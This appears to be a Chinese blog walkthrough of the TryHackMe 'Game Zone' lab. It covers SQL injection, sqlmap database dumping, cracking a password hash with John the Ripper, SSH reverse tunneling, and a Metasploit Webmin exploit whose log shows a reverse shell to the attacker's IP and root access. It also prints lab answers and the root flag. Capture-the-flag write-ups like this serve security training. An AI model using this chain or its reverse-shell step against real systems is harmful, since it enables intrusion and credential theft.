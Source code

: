 # TryHackMe -- HackPark


Offensive Pentesting -- Game Zone walkthrough.

<!--more-->

# THM -- Offensive Pentesting -- Game Zone

## Deploy the vulnerable machine

### What is the name of the large cartoon avatar holding a sniper on the forum?

直接使用图片搜索：agent 47

## Obtain access via SQLi

### When you've logged in, what page do you get redirected to?

使用登录功能，先抓包看下通信数据：

![image-20240319154426077](https://raw.githubusercontent.com/AlexsanderShaw/BlogImages/main/img/2023/202403191544451.png)

理论上，没有防护的情况下，可以尝试一下爆破username和password参数。这里我们还要测试一下，看看有没有过滤特殊字符串，响应一样，判断不出来。那就尝试sql注入：

![image-20240319154931261](https://raw.githubusercontent.com/AlexsanderShaw/BlogImages/main/img/2023/202403191549294.png)

![image-20240319154943866](https://raw.githubusercontent.com/AlexsanderShaw/BlogImages/main/img/2023/202403191549889.png)

username处存在字符型注入，后续我们可以考虑使用这个sql注入来获取权限。





所以答案就是`portal.php`。

## Using SQLMap

上面发现了一个sql注入漏洞，那么现在就可以使用这个漏洞来往下进行了，这里使用的工具是sqlmap。

### In the users table, what is the hashed password?

burp抓包请求，拿到请求内容：

![image-20240319160716561](https://raw.githubusercontent.com/AlexsanderShaw/BlogImages/main/img/2023/202403191607592.png)

![image-20240319160807420](https://raw.githubusercontent.com/AlexsanderShaw/BlogImages/main/img/2023/202403191608452.png)

然后上sqlmap：

![image-20240319162320980](https://raw.githubusercontent.com/AlexsanderShaw/BlogImages/main/img/2023/202403191623006.png)

![image-20240319162520205](https://raw.githubusercontent.com/AlexsanderShaw/BlogImages/main/img/2023/202403191625230.png)

数据库是mysql，参数`searchitem`存在sql注入漏洞。接下来直接dump数据库的表：

![image-20240319162617990](https://raw.githubusercontent.com/AlexsanderShaw/BlogImages/main/img/2023/202403191626026.png)

![image-20240319162851290](https://raw.githubusercontent.com/AlexsanderShaw/BlogImages/main/img/2023/202403191628325.png)

答案是users表中的pwd的hash。

### What was the username associated with the hashed password?

agent47

### What was the other table name?

post

## Cracking a password with JohnTheRipper

在上面拿到了密码，下面可以尝试进行解密密码。

### What is the de-hashed password?

```shell
┌──(v4ler1an㉿kali)-[~/Documents/tmp]
└─$ cat hash.txt
ab5db915fc9cea6c78df88106c6500c57f2b52901ca6c0c6218f04122c3efd14

┌──(v4ler1an㉿kali)-[~/Documents/tmp]
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt --format=Raw-SHA256
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-SHA256 [SHA256 256/256 AVX2 8x])
Warning: poor OpenMP scalability for this hash type, consider --fork=4
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
videogamer124    (?)
1g 0:00:00:00 DONE (2024-03-19 04:32) 5.882g/s 17347Kp/s 17347Kc/s 17347KC/s vimivi..vainlove
Use the "--show --format=Raw-SHA256" options to display all of the cracked passwords reliably
Session completed.
```

### What is the user flag?

直接用户名密码ssh登录.

## Exposing services with reverse SSH tunnels

使用ssh建立反向代理隧道：

### How many TCP sockets are running?

```shell
agent47@gamezone:~$ netstat -antpul|grep LISTEN
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:10000           0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -
tcp6       0      0 :::80                   :::*                    LISTEN      -
tcp6       0      0 :::22                   :::*                    LISTEN      -
```

总计5个。

### What is the name of the exposed CMS?

上面的端口里，有个10000端口访问不到，怀疑是做了防火墙限制，也就是不出网。如果是这样，我们就需要使用代理把10000端口的服务反向代理出来，这里可以直接使用ssh：

![image-20240319165506045](https://raw.githubusercontent.com/AlexsanderShaw/BlogImages/main/img/2023/202403191655100.png)

然后在kali上直接访问kali的10000端口：

![image-20240319165543695](https://raw.githubusercontent.com/AlexsanderShaw/BlogImages/main/img/2023/202403191655751.png)

是一个Webmin的cms，直接用`agent47/videogamer124`登录访问，可以看到详细信息。

## Privilege Escalation with Metasploit

想办法利用Webmin进行提权即可。

首先searchsploit搜索一下：

![image-20240319171155936](https://raw.githubusercontent.com/AlexsanderShaw/BlogImages/main/img/2023/202403191712753.png)

直接使用msf即可:

![image-20240319171407203](https://raw.githubusercontent.com/AlexsanderShaw/BlogImages/main/img/2023/202403191714269.png)

![image-20240319171558152](https://raw.githubusercontent.com/AlexsanderShaw/BlogImages/main/img/2023/202403191715219.png)

打完直接就是root权限了，这个没有涉及到提权：

```shell
msf6 exploit(unix/webapp/webmin_show_cgi_exec) > exploit

[*] Started reverse TCP double handler on 10.2.124.22:4444
[*] Attempting to login...
[+] Authentication successful
[+] Authentication successful
[*] Attempting to execute the payload...
[+] Payload executed successfully
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo E6mj7UoFjqWBNVOO;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Matching...
[*] B is input...
[*] Command shell session 1 opened (10.2.124.22:4444 -> 10.10.55.169:45412) at 2024-03-19 05:24:33 -0400


Shell Banner:
E6mj7UoFjqWBNVOO
-----

id
uid=0(root) gid=0(root) groups=0(root)
pwd
/usr/share/webmin/file/
cat /root/root.txt
a4b945830144bdd71908d12d902adeee
```

## 总结

这个练习感觉思维比方法更重要，攻击路径是拿到第一个站点-> 漏洞利用拿到用户名和密码 -> 端口发现第二个站点 -> 反带不出网机器 -> 漏洞利用第二个站点拿管理员权限。

知识点：

- 反向代理（后续会出一个详细的关于代理的文章）
- sql注入
